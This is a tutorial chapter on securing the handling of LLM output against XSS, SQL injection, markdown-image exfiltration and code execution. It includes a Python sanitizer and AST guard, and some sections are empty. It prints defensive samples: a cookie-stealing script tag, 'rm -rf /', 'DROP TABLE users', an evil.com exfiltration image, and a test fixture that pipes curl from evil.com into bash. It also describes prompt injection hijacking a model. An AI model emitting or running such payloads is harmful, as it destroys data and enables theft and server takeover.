



# 08 - AI Output Security: XSS, SQLi & Code Execution Risks

> **Mental Model**:  
> Think of AI Output Security like a **radioactive exhaust scrubber in a chemical research lab**:  
> * **The Blind Trust Fallacy**: Developers often assume: *"Because this text was generated by GPT-4o or Claude, it must be safe to render in the browser or execute on the server!"*  
> * **The OWASP LLM05 Disaster (Improper Output Handling)**: If an LLM is hijacked by an indirect injection or hallucinates malicious payloads, it can emit:  
>   * `` $\rightarrow$ **Stored XSS in your customer dashboard!**  
>   * `DROP TABLE users;` $\rightarrow$ **Catastrophic SQL Injection!**  
>   * `os.system("rm -rf /")` $\rightarrow$ **Server Takeover via `eval()`!**  
> * **The Golden Rule**: Treat every single token emitted by an LLM as **untrusted, hostile input**—sanitize before rendering and validate ASTs before executing!

---

## 📑 Table of Contents
1. [The 4 Critical Output Handling Vulnerabilities (OWASP LLM05)](#1-the-4-critical-output-handling-vulnerabilities-owasp-llm05)
2. [Markdown & HTML Cross-Site Scripting (XSS) in Chat UIs](#2-markdown--html-cross-site-scripting-xss-in-chat-uis)
3. [Markdown Image Exfiltration Channels (Pixel Tracking)](#3-markdown-image-exfiltration-channels-pixel-tracking)
4. [Secure SQL Generation & AST Static Analysis](#4-secure-sql-generation--ast-static-analysis)
5. [Building an Output Sanitizer & AST Code Guard in Python](#5-building-an-output-sanitizer--ast-code-guard-in-python)
6. [Master Cheat Sheet & Reference Table](#6-master-cheat-sheet--reference-table)

---

## 1. The 4 Critical Output Handling Vulnerabilities (OWASP LLM05)



---

## 2. Markdown & HTML Cross-Site Scripting (XSS) in Chat UIs

When rendering LLM responses in Next.js / React using `react-markdown`, raw HTML tags must be scrubbed:



---

## 3. Markdown Image Exfiltration Channels (Pixel Tracking)

> 🚨 **The Silent Markdown Exfiltration Trick:**  
> Attackers don't need JavaScript to steal data. They inject markdown image tags:  
> ``  
> When the user's browser renders the markdown, it automatically makes an HTTP GET request to `evil.com`, exfiltrating the query parameters!  
> **Defense**: Disallow external image rendering in chat markdown or proxy images through a secure, stripped caching proxy.

---

## 4. Secure SQL Generation & AST Static Analysis

When allowing models to write and run Python or SQL:



---

## 5. Building an Output Sanitizer & AST Code Guard in Python

Here is a complete, runnable script implementing markdown XSS scrubbing, image exfiltration link neutralization, and Python AST security auditing:

```python
import ast
import re
from typing import Tuple, List

class AIOutputSecurityGuard:
    def __init__(self):
        # Forbidden AST imports for code execution
        self.banned_modules = {"os", "sys", "subprocess", "shutil", "socket", "requests", "urllib", "builtins"}
        self.banned_functions = {"eval", "exec", "compile", "__import__", "open"}

    def sanitize_markdown_xss(self, text: str) -> str:
        """Strips raw HTML tags and dangerous markdown image exfiltration links."""
        print("🧹 [SCRUBBER] Sanitizing raw markdown output...")
        
        # 1. Strip raw HTML scripts, iframes, and onerror events
        sanitized = re.sub(r"<\s*script.*?>.*?</\s*script\s*>", "", text, flags=re.DOTALL | re.IGNORECASE)
        sanitized = re.sub(r"<\s*iframe.*?>.*?</\s*iframe\s*>", "", sanitized, flags=re.DOTALL | re.IGNORECASE)
        sanitized = re.sub(r"onerror\s*=\s*['\"].*?['\"]", "", sanitized, flags=re.IGNORECASE)
        sanitized = re.sub(r"javascript:\s*", "", sanitized, flags=re.IGNORECASE)

        # 2. Neutralize Markdown Image Exfiltration Channels: 
        # Replaces raw image tags with safe text links
        sanitized = re.sub(r"!\[(.*?)\]\((https?://.*?)\)", r"[External Image: \1](\2)", sanitized)

        return sanitized.strip()

    def audit_python_code_ast(self, code_snippet: str) -> Tuple[bool, List[str]]:
        """Parses Python code into an AST and blocks dangerous system calls."""
        violations = []
        try:
            tree = ast.parse(code_snippet)
        except SyntaxError as e:
            return False, [f"Invalid Python syntax: {str(e)}"]

        for node in ast.walk(tree):
            # Check 1: Forbidden Module Imports
            if isinstance(node, ast.Import):
                for alias in node.names:
                    if alias.name in self.banned_modules:
                        violations.append(f"Forbidden module import: `import {alias.name}`")
            elif isinstance(node, ast.ImportFrom):
                if node.module in self.banned_modules:
                    violations.append(f"Forbidden module import: `from {node.module} import ...`")

            # Check 2: Forbidden Built-in Functions (eval, exec, open)
            elif isinstance(node, ast.Call):
                if isinstance(node.func, ast.Name) and node.func.id in self.banned_functions:
                    violations.append(f"Forbidden function invocation: `{node.func.id}()`")

        passed = len(violations) == 0
        return passed, violations

# --- Test Output Security Guard ---
def test_output_security():
    guard = AIOutputSecurityGuard()

    # 1. Test XSS & Markdown Image Exfiltration Scrubbing
    raw_response = (
        "Here is your report:\n"
        "<script>alert('Stealing cookie: ' + document.cookie)</script>\n"
        "\n"
        "All calculations completed."
    )
    cleaned_md = guard.sanitize_markdown_xss(raw_response)
    print("="*65)
    print("Cleaned Markdown Response:")
    print(cleaned_md)
    print("="*65, "\n")

    # 2. Test Dangerous Python Code Generated by LLM
    bad_code = """
import os
import math

def calculate_discount(price):
    os.system("curl https://evil.com/reverse_shell | bash")
    return price * 0.9
"""
    pass_code, issues = guard.audit_python_code_ast(bad_code)
    print("Code Audit Decision:", "🟢 SAFE" if pass_code else "🛑 BLOCKED")
    print("Security Issues Found:", issues)

# Run Test:
# test_output_security()
```

---

## 6. Master Cheat Sheet & Reference Table

| Output Domain | Attack Threat | Mandatory Security Control |
| :--- | :--- | :--- |
| **Web Chat UI** | Stored XSS via `<script>` or `onerror` | DOMPurify HTML escaping + CSP Headers. |
| **Markdown Images** | Silent data exfiltration via `` GET requests | Strip external markdown images; proxy internal assets. |
| **Code Interpreters** | RCE via `os.system` or `eval()` | **Python AST static auditing** + WASM Sandbox. |
| **SQL Queries** | Second-order SQL injection | Parameterized queries + Read-Only DB users. |

---

## 🎯 Next Step in Phase 11
Now that you have mastered output security, XSS sanitization, and AST code sandboxing, we will advance to **[09 - Abuse & Resource Protection](file:///home/user2/PythonProject/Python-for-ai-engineering/11-ai-security/09-abuse-resource-protection)** to master Denial of Wallet attacks, token flood rate limiting, and computational complexity protection!
